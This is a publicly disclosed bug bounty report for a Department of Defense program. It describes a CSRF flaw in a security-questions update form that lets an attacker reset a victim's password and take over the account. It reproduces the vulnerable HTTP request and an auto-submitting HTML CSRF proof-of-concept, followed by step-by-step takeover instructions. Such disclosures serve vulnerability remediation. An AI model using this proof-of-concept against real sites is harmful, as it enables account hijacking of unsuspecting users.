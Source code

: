 # CSRF Attack on changing security questions leads to full Account TakeOver

## Report Details
- **Report ID**: 2652603
- **URL**: https://hackerone.com/reports/2652603
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-08-12T16:16:05.666Z
- **Disclosed**: 2024-12-18T19:47:17.631Z

## Reporter
- **Username**: prakhar0x01
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
Hii, 


While researching https://www.████/, I discovered that an attacker could exploit a CSRF vulnerability to perform a password reset and gain full control of any user's account.

There is a feature in the user profile that allows users to change their security questions and answers. However, when the user changes this information, the application does not verify the CSRF token, resulting in a CSRF vulnerability in that functionality.

Additionally, there is another functionality on the reset password. Users can change their password via the security questions. However, exploiting the previously mentioned vulnerability will lead to bypassing this feature and result in a 1-Click Account Takeover.


### Vulnerable Request

```
POST /member/updatesecurityquestions HTTP/2
Host: www.███████
Cookie: {YOUR-COOKIE}
Content-Length: 170
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://www.██████████
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://www.██████/member/updatesecurityquestions
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

security_questions1=1&security_question_answer1=temp&security_questions2=2&security_question_answer2=temp&security_questions3=3&security_question_answer3=temp&submit=Save
```

## References

**Video PoC**

███████

## Impact

1-  CSRF Vulnerability on Changing Security Questions/Answers
2 - Account Takeover

## System Host(s)
www.█████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1 - Create an Account on : `https://www.███/`
2 - Navigate to : `https://www.█████████/member/updatesecurityquestions` and update Security questions
3 - Intercept the request, Create CSRF PoC or you can use this

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://www.█████████/member/updatesecurityquestions" method="POST">
      <input type="hidden" name="security&#95;questions1" value="1" />
      <input type="hidden" name="security&#95;question&#95;answer1" value="hacked" />
      <input type="hidden" name="security&#95;questions2" value="2" />
      <input type="hidden" name="security&#95;question&#95;answer2" value="hacked" />
      <input type="hidden" name="security&#95;questions3" value="3" />
      <input type="hidden" name="security&#95;question&#95;answer3" value="hacked" />
      <input type="hidden" name="submit" value="Save" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
4 - Execute it in the browser, See that security questions have been changed.
5 - Now, navigate to another private window, go to `https://www.██████/forgotpassword/?redirect_to=%2Fmember%2Foptions%2Fcurrenttab%2Femail`, Observe an option **On Screen Reset**
6 - Since as an attacker, you know the victim's security questions & answers, hence put the right answers & you can change the victim's password.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
